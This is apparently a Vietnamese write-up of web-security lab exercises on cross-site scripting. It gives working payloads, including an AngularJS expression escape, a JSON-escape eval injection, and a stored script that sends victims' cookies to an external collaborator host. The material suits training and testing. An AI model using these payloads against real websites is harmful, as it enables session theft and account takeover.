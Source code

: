 ![image](https://user-images.githubusercontent.com/103978452/208209503-988c1e56-28af-4efb-86b3-2b58eaf1188c.png)
Như vậy khi trong Query string có biến `storeId=abc`, thì đoạn text `abc` sẽ được thêm vào website.

Ta thay đổi query string thành `?productId=1&storeId=<script>alert(1)</script>`, kết quả lệnh alert được thực thi thành công.

# 11. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
Website sử dụng AngularJs. Thử search với từ khóa `{{1+2}}` thì kết quả trả về 3. Như vậy, ta có thể execute code bên trong cặp dấu `{{`.

Nhận thấy dấu đóng mở tag và dấu nháy đơn đã bị encoded, tuy nhiên ta vẫn có thế sử dụng dấu nháy kép. Search với từ khóa `{{constructor.constructor("alert(1)")()}}`, kết quả lệnh alert được thực thi thành công.

# 12. Reflected DOM XSS
Ta thấy trong file `searchResults.js` có đoạn code: `eval('var searchResultsObj = ' + this.responseText);`, và trong `responseText` là chuỗi JSON có dạng `{"results":[],"searchTerm":"abc"}`, trong đó searchTerm là từ khóa ta nhập vào. Như vậy, nếu ta có thể escape chuỗi JSON và chèn vào lệnh `alert(1)`, thì lệnh `eval` sẽ khiến lệnh `alert(1)` được thực thi

Thử chèn `"`, ta thấy kí tự `\` được tự động thêm vào: `{"results":[],"searchTerm":"\""}`

Thử chèn `\"`, ta thấy với kí tự `\` vẫn giữ nguyên, đoạn JSON trở thành `{"results":[],"searchTerm":"\"}`. Như vậy ta có thể escape được string trong value của "searchTerm"

Như vậy, ta sẽ exploit XSS với payload: `\"};alert(1)//`, khi đó đoạn JSON trở thành `{"results":[],"searchTerm":"\\"};alert(1)//"}`

Thử cách trên bằng cách gửi request `GET /search-results?search=\"};alert(1)//`, kết quả thành công.

# 13. Stored DOM XSS
Ta thấy website đã chặn XSS bằng đoạn code `html.replace('<', '&lt;').replace('>', '&gt;');`. Tuy nhiên, do hàm `replace` chỉ thay thế kí tự đầu tiên trong chuỗi, nên ta có thể bypass được.

Submit một comment với phần body là `<><img src=1 onerror=alert(1)>`, kết quả thành công.

# 14. Exploiting cross-site scripting to steal cookies
Ta submit một comment chứa nội dung là đoạn code sau:
```
<script>
    fetch('https://uxv889vycw7d8z1pxaxkp4kzcqig65.oastify.com?cookie='+encodeURIComponent(document.cookie));</script>
```
Sau khi submit, vào Burp Collaborator Client kiểm tra thì thấy có request được gửi đến, trong đó có chứa session của nạn nhân

![image](https://user-images.githubusercontent.com/103978452/208383188-42d00b62-8dd5-4f8e-9d7e-7bc692eba4e4.png)
